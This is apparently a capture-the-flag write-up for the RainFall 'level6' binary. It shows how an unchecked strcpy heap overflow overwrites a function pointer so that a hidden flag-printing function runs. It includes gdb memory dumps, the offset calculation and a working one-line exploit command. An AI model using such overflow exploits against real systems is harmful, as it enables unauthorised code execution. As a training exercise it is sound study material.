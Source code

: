 The program expects a command line input that will be use in a `strcpy` just before the double pointer on the `m()` function is executed. We can see an hidden function `n()` which prints the flag we need. Here the function `strcpy` will copy the bytes of the source `argv[1]` to dest `uVar1` until meet a `\0`, but without check on the size. We will have to trace the value of the parameter we pass to level6 to exploit the buffer of `strcpy`, in order to change the execution of `m`.

1. Find out the buffer’s size
```
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
```
%eax should contain our argv[1]’s address. Check that out by inserting breakpoints after the first malloc call, and at the strcpy call and we can see that $eax value is the same. Then set a breakpoint at the address of m, and check the values where our `argv[1]` is stocked `0x804a008` :

```
(gdb) x /128bx 0x804a008
0x804a008:	0x41	0x41	0x41	0x41	0x41	0x41	0x00	0x00
0x804a010:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a018:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a020:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a028:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a030:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a038:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a040:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a048:	0x00	0x00	0x00	0x00	0x11	0x00	0x00	0x00
0x804a050:	0x68	0x84	0x04	0x08	0x00	0x00	0x00	0x00
```
We can see that at 0x804a050 there is the address of `m()` so end of our buffer is at 0x804a048.
```
>>> int(hex(0x804a050 - 0x804a008), 16)
72
```
The buffer size is 72.


2. Find out the variable’s address.
```
(gdb) x n
0x8048454 <n>:	0x55
```

3. Exploit !
In the terminal :
```
level6@RainFall:~$ ./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
```
